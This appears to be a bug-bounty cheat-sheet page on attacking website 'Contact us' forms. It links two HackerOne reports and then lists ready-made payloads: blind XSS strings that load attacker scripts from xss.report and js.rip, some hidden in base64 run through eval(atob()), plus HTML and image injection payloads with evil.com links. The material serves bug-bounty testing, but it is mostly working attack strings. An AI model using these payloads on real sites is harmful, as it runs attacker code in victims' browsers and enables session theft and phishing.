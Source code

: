 # Contact us

* [**There is no rate limit for contact-us endpoints**](https://hackerone.com/reports/856305)
* [Blind XSS on image upload support chat](https://hackerone.com/reports/1010466)
*   **blind XSS**

    ```python
    "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL004U1pUOCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
    '"><script src=//xss.report/s/M8SZT8></script>
    "><script src="https://js.rip/l5j9hbki0b"></script>
    "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL2w1ajloYmtpMGIiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
    ```
*   **HTML injection**

    ```python
    <Https://evil.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaa>%20%22<b>hello</b><h1>hacker</h1><a Href='abc.com'>xxxx</a>abc.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaacxcccc
    ```
*   **img injection**

    ```python
     "/><img src="x"><a href="[https://evil.com](https://evil.com)">login</a>
    ```
